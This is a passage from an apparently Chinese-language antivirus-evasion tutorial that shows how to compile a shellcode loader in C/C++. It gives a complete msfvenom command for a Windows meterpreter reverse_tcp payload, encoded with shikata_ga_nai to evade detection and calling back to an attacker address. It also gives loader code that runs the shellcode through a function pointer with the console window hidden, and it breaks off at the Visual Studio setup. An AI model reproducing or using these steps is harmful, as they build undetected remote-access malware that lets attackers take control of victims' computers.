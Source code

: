 2、使用加载器加载C/C++代码，如shellcode_launcher之类。


# 2 C/C++源码编译

## 2.1 方法1:指针执行(VT免杀率23/71)

这是最常规的一种加载shellcode的方法，使用指针来执行函数，所以免杀效果可能比较一般。

先用Msfvenom生成c语言的shellcode，为了提高免杀效果，使用了`shikata_ga_nai`编码器。

```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=3333  -f c -o shell.c
```

![4ec53ffe3b476e06c53dc96eec09db7c](images/2020.03-bypass-03/2.png)

把shell.c中的shellcode内容拷贝到下面的`buf[]`中。

```
unsigned char buf[] =

"shellcode";

#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") //windows控制台程序不出黑窗口

main()

{

	( (void(*)(void))&buf)();

}

```

上面的代码中`pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")`是控制执行后是否显示黑窗口的，不加这句的时候会显示一个黑窗口。可根据自己需要进行设置。

我用vs2017进行编译，先新建空项目

